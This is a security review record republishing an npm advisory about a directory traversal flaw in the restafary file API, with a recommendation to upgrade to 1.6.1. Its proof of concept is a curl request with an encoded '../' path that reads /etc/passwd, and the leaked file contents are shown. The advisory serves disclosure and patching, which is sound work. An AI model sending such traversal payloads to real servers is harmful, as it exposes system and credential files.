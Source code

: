 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Craig Arendt
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/restafary
Review-Date: '2016-03-28'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Directory Traversal*<br><br>Recommendation: Upgrade to restafary version 1.6.1 or greater.
### Details
- restafary is a REpresentful State Transfer API for Creating, Reading, Using, Deleting files on a server from the web - restafary is able to set up a root path, which should only allow it to run inside of that root path it specified.  - An attacker is able to provide a specifically crafted path to access files outside of this specified root path.     - Note: this is only possible if the attacker has access to the restafary application.  Proof of Concept  ``` curl -i -s -k  -X 'GET' -H 'Authorization: Basic YWRtaW46cGFzc3dvcmQ=' 'http://localhost:8000/api/v1/fs/..%2f..%2fetc/passwd'   HTTP/1.1 200 OK X-Powered-By: Express Access-Control-Allow-Origin: * Content-Type: text/plain; charset=UTF-8 Vary: Accept-Encoding Accept-Ranges: bytes Last-Modified: Sun Jul 12 2015 22:38:08 GMT-0700 (PDT) Content-Length: 5581 Cache-Control: max-age=0 Date: Fri, 25 Mar 2016 17:30:29 GMT Connection: keep-alive  ## # User Database #  # Note that this file is consulted directly only when the system is running # in single-user mode.  At other times this information is provided by # Open Directory. # # See the opendirectoryd(8) man page for additional information about # Open Directory. ## nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false root:*:0:0:System Administrator:/var/root:/bin/sh ```
<br><br>• Affected Versions: <1.6.1
<br>• Patched Versions: >=1.6.1
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
None
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
